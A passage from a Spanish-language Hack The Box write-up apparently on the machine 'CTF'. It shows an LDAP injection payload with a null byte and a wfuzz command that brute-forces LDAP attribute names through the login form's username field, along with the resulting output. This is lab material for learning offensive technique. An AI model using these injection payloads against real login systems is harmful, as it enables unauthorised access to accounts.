```null
=====================================================================

000000004:   200        68 L     231 W      2822 Ch     "d"                                                                                                                                             

Total time: 26.15709
Processed Requests: 26
Filtered Requests: 25
Requests/sec.: 0.993994
```

Terminado el proceso el nombre de usuario es ```ldapuser```. Ahora solo me falta obtener el OTP. En ```LDAP``` se emplean atributos que puedo tratar de bruteforcear, ya que se están empleando otros campos que son los que he forzado a cerrar con los paréntesis y el null byte. La idea es abrir un nuevo campo, y en este añadir el atributo

```null
(&
    (&
        (inputUsername=ldapuser)
        (inputOTP=123)
        (atributo=*)))%00
    )
)
```

Utilizo un diccionario de [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP_attributes.txt)

```null
wfuzz -c --hw=233 -w /home/rubbx/Desktop/HTB/Machines/CTF/LDAP_attributes.txt -d 'inputUsername=ldapuser%2529%2528FUZZ%253d%252a%2529%2529%2529%2500&inputOTP=123' http://10.10.10.122/login.php
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.122/login.php
Total requests: 27

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
=====================================================================

000000015:   200        68 L     231 W      2822 Ch     "name"                                                                                                                                          
000000025:   200        68 L     231 W      2822 Ch     "uid"                                                                                                                                           
000000022:   200        68 L     231 W      2822 Ch     "sn"                                                                                                                                            
000000024:   200        68 L     231 W      2822 Ch     "surname"                                                                                                                                       
000000020:   200        68 L     231 W      2822 Ch     "pager"                                                                                                                                         
000000017:   200        68 L     231 W      2822 Ch     "objectClass"                                                                                                                                   
```